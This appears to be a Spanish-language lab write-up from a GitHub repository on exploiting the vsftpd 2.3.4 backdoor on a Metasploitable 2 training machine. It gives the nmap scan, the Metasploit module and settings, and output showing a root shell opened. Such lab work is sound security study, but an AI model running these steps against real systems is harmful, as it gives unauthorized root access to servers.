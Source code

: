 # Explotación de vsftpd 2.3.4 Backdoor (Metasploitable 2)

## 🖥️ Información del objetivo

- **IP del objetivo:** `192.168.1.149`
- **Sistema vulnerable:** Metasploitable 2
- **Puerto vulnerable:** `21/tcp`
- **Servicio:** FTP
- **Versión:** vsftpd 2.3.4

## 🔍 Escaneo con Nmap

```bash
nmap -sV -sC -Pn -oN 192.168.1.149_scan.txt 192.168.1.149

Resultado relevante:

21/tcp open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

⚙️ Explotación con Metasploit
1. Abrimos Metasploit
msfconsole

2. Cargamos el exploit
use exploit/unix/ftp/vsftpd_234_backdoor

3. Configuramos el objetivo
set RHOST 192.168.1.149
run

4. Resultado:
[*] 192.168.1.149:21 - Banner: 220 (vsFTPd 2.3.4)
[+] 192.168.1.149:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened

¡Se obtiene acceso como root! 🎉

✅ Conclusión
El servicio FTP vsftpd 2.3.4 contiene una puerta trasera que permite obtener acceso remoto como root sin autenticación.

📷 Capturas.

### 🎯 Lanzamiento de Metasploit:

![Lanzamiento de Metasploit](https://github.com/doval2222/scripts-ciberseguridad/raw/main/exploits/vsftpd-234-backdoor/evidencias/Metasploit_Lanzamiento.png)

### 🔍 Escaneo con Nmap:

![Escaneo Nmap](https://github.com/doval2222/scripts-ciberseguridad/raw/main/exploits/vsftpd-234-backdoor/evidencias/Escaneo_con_nmap.png)

### 🎉 Shell como root obtenida:

![Shell como root](https://github.com/doval2222/scripts-ciberseguridad/raw/main/exploits/vsftpd-234-backdoor/evidencias/Shell_root.png)
